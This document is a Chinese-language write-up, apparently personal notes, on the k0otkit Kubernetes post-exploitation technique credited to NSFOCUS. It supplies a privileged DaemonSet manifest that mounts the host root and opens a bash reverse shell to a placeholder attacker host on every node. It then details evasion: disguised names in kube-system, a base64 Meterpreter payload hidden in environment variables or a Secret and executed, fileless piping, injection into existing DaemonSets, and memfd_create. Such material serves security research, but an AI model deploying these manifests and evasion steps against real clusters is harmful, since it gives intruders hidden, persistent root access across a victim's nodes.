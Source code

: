 # k0otkit
绿盟开发,
场景为已经造成了控制节点的容器逃逸，获取了控制节点的root权限,然后进行后渗透利用

## 基本思路
k8s存在名叫DaemonSet的资源，他能够确保全部节点上运行一个pod的副本，当有节点加入集群的时候，也会为听他们新增一个Pod

DaemonSet对于渗透测试很有价值:
1. 能够确保所有节点上都运行一个Pod
2. 如果有Pod退出，DaemonSet将在对应节点上自动重建一个Pod

因此如果利用管理员凭证在目标集群创建一个内容为反弹shell的DaemonSet,我们就可以实现集群所有节点自动化反弹shell

## 基本实现
将DaemonSet创建的Pod启动命令设置为反弹shell即可,但仅仅如此也是不够的
我们需要在这个容器上打破隔离，需要以下几点
1. 特权容器，相当于docker run的时候加上`-privileged`选项
2. 容器与宿主机共享PID命名空间
3. 容器内挂载宿主机根目录

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: attacker
spec:
  selector:
    matchLabels:
      app: attacker
  template:
    metadata:
      labels:
        app: attacker
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        # reverse shell
        args: ["-c", "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```

然后利用容器逃逸的`kubectl apply -f k0otkit.yaml`来实现该功能

然后绿盟的研究员也对该yaml进行了迭代更新，使得能让其增加隐蔽性

## 删除敏感词
名称和标签切换为`kube-cache, kube-metrics`这种，可以极大减少怀疑
此外由于管理员执行命令`kubectl get pods`就可以查看节点

所以这里同样考虑将`DaemonSet`资源创建在`kube-system`系统命名空间下，这样运行上面的命令就查看不到异常资源，
而在正常运行k8s的集群下，查看kube-system命名空间的资源状态需求也很少，这样就提高了隐蔽性
```yaml
metadata:
    name: attacker
    namespace: kube-system
    # ...
```
## 替换shell为Meterpreter
上面的yaml是基于bash的TCP协议反弹shell
由于他是明文，所以可能被网络入侵检查系统轻易检测从而触发警告

利用metasploit项目来生成加密反弹shell流量的二进制文件mrt

## 无文件化
上面的构建面临以下问题:
1. 在控制节点上面我们会创建一个本地yaml文件，本地创建文件可能会引起文件监控系统的告警
2. 并且需要二进制程序mrt为启动命令构建容器镜像,自行Meterpreter构建镜像动静太大,远程拉外部镜像容易引起告警

第一个问题的皆解决办法就是使用Linux命令行管道

```sh
cat << EOF | kubectl apply -f -
# {YAML文件内容}
EOF
```
这行命令就是使用cat获取多行输入,结尾用EOF表示，再将cat的输出用管道重定向到`kubectl apply -f -`命令
这样就不需要要创建本地yaml文件


第二个问题,将二进制Meterpreter编码为可见字符串，然后以环境变量的形式存放在DaemonSet的Yaml中
容器运行起来再从中读取字符串解码并保存为二进制文件

```YAML
# ......
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        args: ["-c", "echo -ne $(echo $PAYLOAD | base64 -d) > mrt; chmod u+x mrt; ./mrt"]
        env:
        - name: PAYLOAD
          value: "{PAYLOAD_VALUE}"
# .....
```

## 分离payload

编码后的Meterpreterr过长，容易被视作异常
k8s有一类名为Secret的资源，用来存储敏感信息，可以存入很长的字符串

```sh
secret_name=proxy-cache
secret_data_name=content

cat << EOF | kubectl --kubeconfig /root/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: {PAYLOAD_VALUE_BASE64}
EOF
```
另外需要修改DaemonSet的YAML,将上面secret以环境变量形式加载到容器内部

## 动态容器注入
如果管理员认真查看`kube-system`命名空间下的资源，k0otkit将直接暴露
所以这里采用将恶意容器注入到集群已有的DaemonSet中，这样就不必额外创建DaemonSet资源

## 解决镜像依赖
通过注入目标来确定修改的恶意容器启动命令

## 无文件攻击
由于容器启动后还是会通过yaml文件创建恶意二进制程序，因此上面的问题并不是完整的无文件攻击，这里使用linux提供的系统调用`memfd_create`,而这个系统调用是创建一个内存文件，然后向其中填入内容，最终执行该文件




# 参考
[https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/](https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/)
[内核信息取证](https://www.youtube.com/watch?v=6oe7qL7-WoI)
[使用rootkit隐藏蜜罐](https://www.sciencedirect.com/science/article/abs/pii/S1084804523000255)
[eBPF版本的rootkit实现](https://www.youtube.com/watch?v=g6SKWT7sROQ)
[eBPF enemy](https://www.youtube.com/watch?v=Q8eY67hDvkc)








